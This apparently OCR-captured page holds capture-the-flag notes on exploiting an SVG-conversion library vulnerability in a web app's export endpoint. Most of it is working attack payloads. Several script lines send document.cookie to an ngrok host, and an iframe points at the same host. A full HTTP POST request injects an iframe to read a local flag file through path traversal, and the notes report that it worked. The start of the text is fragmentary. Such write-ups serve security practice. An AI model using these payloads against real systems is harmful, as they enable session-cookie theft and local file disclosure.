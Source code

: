 \-10\.20677,7\.12271 \-6\.0518,13\.47842c4\.15497,6\.35571 4\.15497,6\.35571 69\.80279,6\.35571z\\"/\>\</g\>\</svg\>"\}

\<iframe src="[https://1dd3-216-93-199-231.ngrok.io](#https://1dd3-216-93-199-231.ngrok.io)
/?c="\>\</iframe\>

\<script\>document\.location='[https://1dd3-216-93-199-231.ngrok.io](#https://1dd3-216-93-199-231.ngrok.io)
[/?c='+document.cookie;</script>](#https://b0f8-216-93-199-231.ngrok.io/?c='+document.cookie;</script><path)


[https://1dd3-216-93-199-231.ngrok.io](#https://1dd3-216-93-199-231.ngrok.io)


POC code here found for SVG library vuln:  [https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGCORE-1582785](#https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGCORE-1582785)

m3talm3rg3\-pablo came up with it \- from m4lmex

**He was using the include to try to find the file
Maybe we can exfiltrate other data w/ ngrok though?**

**Added this to top of req:**
\<svg\-dummy\>\</svg\-dummy\>\<script\>document\.location='[https://3e1b-216-93-199-231.ngrok.io](#https://3e1b-216-93-199-231.ngrok.io)
/?c='\+document\.cookie;\<script\>

DIdn't work\. But this did:
POST /api/export HTTP/1\.1
Host: 138\.68\.150\.120:31338
User\-Agent: Mozilla/5\.0 \(Windows NT 10\.0; rv:91\.0\) Gecko/20100101 Firefox/91\.0
Accept: \*/\*
Accept\-Language: en\-US,en;q=0\.5
Accept\-Encoding: gzip, deflate
Referer: [http://138.68.150.120:31338/dashboard
](#http://138.68.150.120:31338/dashboard
)

Content\-Type: application/json
Origin: [http://138.68.150.120:31338
](#http://138.68.150.120:31338
)

Content\-Length: 595
DNT: 1
Connection: close
Cookie: session=eyJ1c2VybmFtZSI6IjExMS0xMTEtMTExMSJ9; session\.sig=Hx7l5IJEuIjS3RqYX9GCmqR32Fw

\{"svg":"\<svg\-dummy\>\</svg\-dummy\>\<iframe src=\\"file://\.\./\.\./\.\./app/flag\.txt\\" width=\\"100%\\" height=\\"2000px\\"\>\</iframe\>\<svg version=\\"1\.1\\" xmlns=\\"[http://www.w3.org/2000/svg\\"](#http://www.w3.org/2000/svg")
xmlns:xlink=\\"[http://www.w3.org/1999/xlink\\"](#http://www.w3.org/1999/xlink")
width=\\"500\\" height=\\"400\\" viewBox=\\"0,0,500,400\\"\>\<g fill=\\"#e74c3c\\" fill\-rule=\\"nonzero\\" stroke=\\"none\\" stroke\-width=\\"1\\" stroke\-linecap=\\"butt\\" stroke\-linejoin=\\"miter\\" stroke\-miterlimit=\\"10\\" stroke\-dasharray=\\"\\" stroke\-dashoffset=\\"0\\" font\-family=\\"none\\" font\-weight=\\"none\\" font\-size=\\"none\\" text\-anchor=\\"none\\" style=\\"mix\-blend\-mode: normal\\"\>\</svg\>"\}
